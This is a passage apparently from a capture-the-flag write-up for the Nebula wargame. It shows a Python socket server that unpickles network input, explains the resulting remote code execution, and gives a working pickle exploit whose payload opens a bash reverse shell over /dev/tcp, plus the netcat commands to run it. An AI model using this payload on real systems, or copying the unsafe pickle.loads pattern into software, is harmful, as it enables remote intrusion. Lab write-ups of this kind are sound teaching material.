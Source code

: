   obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
{% endcodeblock %}

According [documentation](https://docs.python.org/2/library/pickle.html) it is
not safe to use data from untrusted source, so `pickle.loads` on line 14 means RCE:

`Warning The pickle module is not intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.`

Our exploit for executing remote shell:

{% codeblock lang:python exploit.py %}
#!/usr/bin/env python

from cPickle import dumps
from os      import system

class Exploit(object):
    def __reduce__(self): return (system, ('bash -i >& /dev/tcp/0.0.0.0/1337 0>&1',))

print dumps(Exploit())
{% endcodeblock %}

{% codeblock %}
# Window 1: 
sh-4.2$ nc -l 1337

# Window 2:
sh-4.2$ ./exploit.py
cposix
system
p1
(S'bash -i >& /dev/tcp/0.0.0.0/1337 0>&1'
p2
tp3
Rp4
.

sh-4.2$ ./exploit.py | nc nebula 10007
Accepted connection from 127.0.0.1:42532
